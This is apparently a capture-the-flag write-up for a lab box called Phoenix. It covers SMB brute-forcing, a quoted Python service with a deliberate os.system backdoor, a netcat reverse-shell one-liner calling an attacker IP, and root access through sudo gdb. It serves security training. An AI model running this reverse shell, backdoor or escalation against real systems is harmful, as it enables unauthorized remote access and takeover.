# Phoenix

__MACHINE IP__: 10.1.1.12

__DATE__: 22/05/2019

__START TIME__: 4:08


# NMAP



There are quite a few port open. Let start our enumeration from HTTP.

# HTTP


I ran `dirsearch` scan on it and found some files.



But there was nothing interesting in those files. So I decided to enumerate `SMB`.

## SMB

I ran `enum4linux 10.1.1.12`



We can see that there is a `/scripts` share there but it didn't allowed connection without password. I found that there was a user named `tom`



And obviously there was a username `root`. I tried to do dictionary attack on both `tom` and `root` with hydra but found no passowrd then [@andreas]() said that I should use `msf` to do dictionary attack on SMB and that would give the password. And it actually worked



`root:lovely`

**NOTE**: Hydra sucks for checking SMB password. Use msf's `scanner/smb/smb_login`.

I connected to SMB share named `/scripts` as root using `lovely` as the password.



Then I downloaded all those files to see if any of those have anything juicy for me. The only interesting script was the `admin-console.py`. It showed that there is a service on port `2003`

```python
client.send("Username ? ".encode())
                data = client.recv(size).decode('utf-8')
                print(data)
                if data:
                    # Set the response to echo back the recieved data
                    if  "tom33094" in (data) :
                        client.send("Welcome Tom ! ".encode())
                        client.send("String ? ".encode())
                        stringo = client.recv(1024).decode()
                        execute(stringo)
                    else:
                        client.send("Login Failed ! ")
                        client.close()
```

when we connect to it it will ask for username, if username is `tom33094` it will take a `string` as input and that input will be passed to `execute` function.

```python
def execute(lol):
    try:
        os.system(lol) #this is our backdoor tom !! in case of attack ..
    except:
        client.send("Bye".encode())
        client.close()
```

execute function just runs that string so we can run a command for our reverse shell. Since this is the BSD machine we'll use

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.254.0.6 4444 >/tmp/f
```



Then I got the user.txt



## Privilege escalation

I first copied my SSH public key on the server so I can get SSH access.

After getting SSH shell I ran enumeration script and from that I found that user `tom` can run `gdb` with `sudo`.



you can search gtfobins for `gdb` or you can simply do `sudo gdb sh`, this will load `sh` binary and then just `run` it.





***

This machine was not that much fun to do. The initial foothold was kind boring cause of bruteforce and priv esc also wasn't hard. Still [@h4d3s]() did great job in making this Box.

Also thanks to @4ndr for helping

***
Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.


